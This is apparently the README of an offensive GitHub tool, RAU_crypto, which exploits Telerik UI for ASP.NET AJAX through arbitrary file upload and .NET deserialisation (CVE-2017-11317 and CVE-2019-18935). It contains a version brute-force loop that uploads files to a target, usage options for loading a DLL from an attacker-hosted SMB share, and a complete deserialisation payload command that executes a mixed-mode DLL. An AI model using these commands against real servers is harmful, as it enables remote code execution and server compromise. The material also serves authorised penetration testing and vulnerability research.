 ```
# https://bishopfox.com/blog/cve-2019-18935-remote-code-execution-in-telerik-ui
echo 'test' > testfile.txt 
for VERSION in 2007.1423 2007.1521 2007.1626 2007.2918 2007.21010 2007.21107 2007.31218 2007.31314 2007.31425 2008.1415 2008.1515 2008.1619 2008.2723 2008.2826 2008.21001 2008.31105 2008.31125 2008.31314 2009.1311 2009.1402 2009.1527 2009.2701 2009.2826 2009.31103 2009.31208 2009.31314 2010.1309 2010.1415 2010.1519 2010.2713 2010.2826 2010.2929 2010.31109 2010.31215 2010.31317 2011.1315 2011.1413 2011.1519 2011.2712 2011.2915 2011.31115 2011.3.1305 2012.1.215 2012.1.411 2012.2.607 2012.2.724 2012.2.912 2012.3.1016 2012.3.1205 2012.3.1308 2013.1.220 2013.1.403 2013.1.417 2013.2.611 2013.2.717 2013.3.1015 2013.3.1114 2013.3.1324 2014.1.225 2014.1.403 2014.2.618 2014.2.724 2014.3.1024 2015.1.204 2015.1.225 2015.2.604 2015.2.623 2015.2.729 2015.2.826 2015.3.930 2015.3.1111 2016.1.113 2016.1.225 2016.2.504 2016.2.607 2016.3.914 2016.3.1018 2016.3.1027 2017.1.118 2017.1.228 2017.2.503 2017.2.621 2017.2.711 2017.3.913; do     
    echo -n "$VERSION: "     
    python3 RAU_crypto.py -P 'C:\Windows\Temp' "$VERSION" testfile.txt <HOST>/Telerik.Web.UI.WebResource.axd?type=rau 2>/dev/null | grep fileInfo || echo 
done
```

# RAU_crypto
[![Language](https://img.shields.io/badge/Lang-Python-blue.svg)](https://www.python.org)

Combined exploit for Telerik UI for ASP.NET AJAX.
- File upload for CVE-2017-11317 and CVE-2017-11357 - will automatically upload the file
- .NET deserialisation for CVE-2019-18935

Now supports testing for the target's ability to pull in remote payloads from an attacker-hosted SMB service. Use Burp Collaborator and/or Responder to facilitate testing whether the necessary pre-requisites are in place.

For exploitation to work, you generally need a version with hard coded keys, or you need to know the key, for example if you can disclose the contents of web.config. The exploit also allows for straightforward decryption and encryption of the rauPostData used with Telerik.Web.UI.WebResource.axd?type=rau

## Requirements
- python >= 3.6 with pycryptodome (https://www.pycryptodome.org/en/latest/src/installation.html) - installed with `pip3 install pycryptodome` or `pip3 install pycryptodomex`

## Published on exploit-db (old version)
- https://www.exploit-db.com/exploits/43874/

## See also
My other Telerik UI exploit (for CVE-2017-9248) will probably also be of interest. It is available here:
- https://github.com/bao7uo/dp_crypto

## To do
- [x] Missing HMAC functionality for later versions.
- [x] Ability to specify custom key.
- [x] Command line argument for execution of a mixed mode dll (in the meantime use the example .NET deserialisation payload provided below).
- [x] Command line arguments for testing capability of and loading remotely (SMB) hosted mixed mode dlls 
- [ ] Separate utility for testing mixed mode dll.
- [x] Provide source code/compilation instructions for mixed mode dll.
- [ ] Brute force versions.

Note - the last four items are complete but not released.

## Vulnerabilities
The file upload (CVE-2017-11317) vulnerability was discovered by others, I believe credits due to @straight_blast @pwntester @olekmirosh . Shortly after it was announced, I encountered the Telerik library during the course of my work, so I researched it and the vulnerability and wrote this exploit in July 2017. I also reported CVE-2017-11357 for the related insecure direct object reference.

https://www.telerik.com/support/kb/aspnet-ajax/upload-%28async%29/details/insecure-direct-object-reference

The .NET deserialisation (CVE-2019-18935) vulnerability was discovered by [@mwulftange]( https://github.com/mwulftange ).

https://www.telerik.com/support/kb/aspnet-ajax/details/allows-javascriptserializer-deserialization

## Usage
```
$ ./RAU_crypto.py -h

RAU_crypto by Paul Taylor / @bao7uo 
CVE-2017-11317, CVE-2019-18935 - Telerik RadAsyncUpload hardcoded keys / arbitrary file upload / .NET deserialisation

Usage:

Decrypt a ciphertext:               -d ciphertext
Decrypt rauPostData:                -D rauPostData
Encrypt a plaintext:                -e plaintext

Generate file upload rauPostData:   -E c:\\destination\\folder Version
Generate all file upload POST data: -p c:\\destination\\folder Version ../local/filename
Upload file:                        -P c:\\destination\\folder Version c:\\local\\filename url [proxy]

Generate custom payload POST data : -c partA partB
Send custom payload:                -C partA partB url [proxy]

Check remote SMB payload capability -r lhost url [proxy]

Load remote SMB dll payload         -R lhost/share/mixed_mode_assembly.dll url [proxy]\n\n" +
Trigger local uploaded dll payload  -L c:/users/public/documents/mixed_mode_assembly.dll url [proxy]\n\n" +

Example URL:               http://target/Telerik.Web.UI.WebResource.axd?type=rau
Example Version:           2016.2.504
Example optional proxy:    127.0.0.1:8080

N.B. Advanced settings e.g. custom keys or PBKDB algorithm can be found by searching source code for: ADVANCED_SETTINGS

$
```
## Example - decryption
![Decrypt screenshot](images/decrypt_screenshot.png)

## Example - arbitrary file uplaod
![Upload screenshot](images/upload_screenshot.png)

## Custom payload (.NET deserialisation)

For details on custom payloads for .NET deserialisation, there is a great article by [@mwulftange]( https://github.com/mwulftange ) who discovered this vulnerability on the Code White blog at the following link.

- https://codewhitesec.blogspot.com/2019/02/telerik-revisited.html

Update - There is an alternative exploit by Caleb Gross [@noperator]( https://github.com/noperator/CVE-2019-18935 ), which incorporates features from this exploit, with a great blog article explaining everything. Thanks also to Caleb for contributing to RAU_Crypto.
- https://know.bishopfox.com/research/cve-2019-18935-remote-code-execution-in-telerik-ui

Other relevant links.

- https://www.blackhat.com/docs/us-17/thursday/us-17-Munoz-Friday-The-13th-JSON-Attacks-wp.pdf
- https://threatvector.cylance.com/en_us/home/implications-of-loading-net-assemblies.html
- https://thewover.github.io/Mixed-Assemblies/

Example .NET deserialisation payload:

```
$ ./RAU_crypto.py -C '{"Path":"file:///c:/users/public/documents/mixedmode64.dll"}' 'System.Configuration.Install.AssemblyInstaller, System.Configuration.Install, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b03f5f7f11d50a3a' http://target/Telerik.Web.UI.WebResource.axd?type=rau
```

For mixed Mode DLL, see my other github repo:
- https://github.com/bao7uo/MixedUp

Special thanks to [@irsdl]( https://github.com/irsdl ) who inspired the custom payload feature.

Credit to [@rwincey]( https://twitter.com/rwincey/status/1296774665239703552 ) who inspired the remote dll feature.
